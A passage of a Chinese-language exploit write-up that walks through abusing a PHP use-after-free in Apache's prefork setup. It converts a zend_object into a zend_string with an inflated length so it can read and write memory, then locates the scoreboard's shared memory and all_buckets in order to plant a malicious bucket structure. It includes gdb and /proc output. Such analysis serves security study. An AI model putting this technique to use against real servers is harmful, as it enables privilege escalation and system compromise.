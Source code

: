 我们希望实现两件事：

-   读取内存以查找all\_buckets的地址

-   编辑共享内存，修改bucket，添加我们自定义的恶意结构

幸运的是，PHP的堆位于内存中的那两个之前。

PHP堆，ap\_scoreboard\_image，all\_buckets的内存地址

    root@apaubuntu:~# cat /proc/6318/maps | grep libphp | grep rw-p
    7f4a8f9f3000-7f4a8fa0a000 rw-p 00471000 08:02 542265 /usr/lib/apache2/modules/libphp7.2.so

    (gdb) p *ap_scoreboard_image 
    $14 = {
      global = 0x7f4a9323e008, 
      parent = 0x7f4a9323e020, 
      servers = 0x55835eddea78
    }
    (gdb) p all_buckets 
    $15 = (prefork_child_bucket *) 0x7f4a9336b3f0

由于我们在PHP对象上触发UAF，因此该对象的任何属性也将是UAF;
我们可以将这个zend\_object
UAF转换为zend\_string。因为zend\_string的结构非常有用：

    (gdb) ptype zend_string
    type = struct _zend_string {
        zend_refcounted_h gc;
        zend_ulong h;
        size_t len;
        char val[1];
    }

len属性包含字符串的长度。
通过递增它，我们可以在内存中进一步读写，从而访问我们感兴趣的两个内存区域:共享内存和all\_buckets。

##### 定位bucket index 和 all\_buckets

我们需要修改ap\_scoreboard\_image-\>parent\[worker\_id\]-\>bucket中的parent结构中的bucket。幸运的是，parent结构总是处于共享内存块的开始，因此很容易找到：

    ➜  /www curl 127.0.0.1
    PID: 14380
    7f8a19da9000-7f8a19dc1000 rw-s 00000000 00:04 61736                      /dev/zero (deleted)
    ➜  /www 

    (gdb) p &ap_scoreboard_image->parent[0]
    $1 = (process_score *) 0x7f8a19da9040
    (gdb) p &ap_scoreboard_image->parent[1]
    $2 = (process_score *) 0x7f8a19da9064
    (gdb) 

为了定位到all\_buckets,我们可以利用我们对prefork\_child\_bucket结构的了解:

    prefork_child_bucket {
        ap_pod_t *pod;
        ap_listen_rec *listeners;
        apr_proc_mutex_t *mutex; <--
    }

